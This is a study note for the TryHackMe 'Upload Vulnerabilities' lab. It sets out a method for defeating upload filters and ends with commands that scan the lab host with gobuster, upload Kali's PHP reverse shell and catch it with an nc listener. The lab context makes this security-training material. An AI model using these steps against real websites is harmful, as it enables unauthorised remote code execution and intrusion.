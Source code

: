# Upload Vulnerabilities

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

---

## 🌐 Resources 🔗

> - [TryHackMe | Upload Vulnerabilities](https://tryhackme.com/r/room/uploadvulns)
>   - [File Upload Vulnerabilities HINTS](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/)
> - [File Upload | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
> - [PayloadsAllTheThings/Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

---

## Attack Methodology

To tackle file upload challenges, begin by **examining** the website to identify its **technology** and **potential attack vectors** (e.g. upload pages), using tools like Wappalyzer or Burpsuite to gather information from headers and server responses (e.g. `server`, `x-powered-by`).

Locate an upload page and review its **client-side scripts** for filters.

Perform a **test upload** with an innocent file to understand **how** the website **processes** and **stores** uploads (upload dir, embedding, naming scheme), using tools like Gobuster to find uploaded file locations (`-x` switch in Gobuster).

Once the upload behavior is understood, attempt to **bypass client-side filters** with a malicious file and analyze any **server-side rejection** for clues.

Common server-side filters include extension whitelists/blacklists, magic number checks, MIME type validation, or file size restrictions, which can be identified through systematic testing, such as **altering file attributes** (e.g. invalid file extension, magic number, file size) or **intercepting upload requests** (e.g. change MIME type with BurpSuite). Use this information to refine your approach and improve the likelihood of a successful exploit.

## Remote Code Execution (RCE)

```bash
gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 > shell.uploadvulns.dirs

# /resources	(Status: 301) [Size: 334] [--> http://shell.uploadvulns.thm/resources/]
# /assets		(Status: 301) [Size: 331] [--> http://shell.uploadvulns.thm/assets/]

webshells # on Kali

cp /usr/share/webshells/php/php-reverse-shell.php .

# open the file and change the IP to THM VPN tunnel IP
# upload the file to http://shell.uploadvulns.thm/

nc -nvlp 1234

```